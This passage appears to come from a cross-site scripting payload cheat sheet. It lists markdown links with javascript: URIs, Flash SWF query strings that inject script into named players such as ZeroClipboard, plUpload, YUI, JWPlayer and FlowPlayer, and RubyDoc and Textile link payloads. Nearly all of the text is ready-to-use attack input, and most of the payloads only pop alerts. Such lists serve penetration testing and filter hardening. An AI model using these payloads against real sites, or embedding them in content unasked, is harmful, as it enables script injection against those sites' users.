 ```md
[a]: (javascript:prompt(1))
```

```md
[a]:(javascript:alert(1))           //Add SOH Character
```


**Flash SWF XSS**

- ZeroClipboard: `ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf`

- plUpload Player: `plupload.flash.swf?%#target%g=alert&uid%g=XSS&`

- plUpload MoxiePlayer: `Moxie.swf?target%g=confirm&uid%g=XSS` (also works with `Moxie.cdn.swf` and other variants)

- FlashMediaElement: <code>flashmediaelement.swf?jsinitfunctio%gn=alert`1`</code>

- videoJS: `video-js.swf?readyFunction=confirm` and `video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29`

- YUI "io.swf": `io.swf?yid=\"));}catch(e){alert(document.domain);}//`

- YUI "uploader.swf": `uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<`

- Open Flash Chart: `open-flash-chart.swf?get-data=(function(){alert(1)})()`

- AutoDemo: `control.swf?onend=javascript:alert(1)//`

- Adobe FLV Progressive: `/main.swf?baseurl=asfunction:getURL,javascript:alert(1)//` and `/FLVPlayer_Progressive.swf?skinName=asfunction:getURL,javascript:alert(1)//`

- Banner.swf (generic): `banner.swf?clickTAG=javascript:alert(document.domain);//`

- JWPlayer (legacy): `player.swf?playerready=alert(document.domain)` and `/player.swf?tracecall=alert(document.domain)`

- SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`

- Uploadify (legacy): `uploadify.swf?movieName=%22])}catch(e){if(!window.x){window.x=1;confirm(%27XSS%27)}}//&.swf`

- FlowPlayer 3.2.7: `flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf`

_Note: Useful reference on constructing Flash-based XSS payloads available at [MWR Labs](https://labs.mwrinfosecurity.com/blog/popping-alert1-in-flash/)._

**Lightweight Markup Languages**

**RubyDoc** (.rdoc)

```rdoc
XSS[JavaScript:alert(1)]
```

**Textile** ([.textile](https://txstyle.org/))

```textile
"Test link":javascript:alert(1)
```
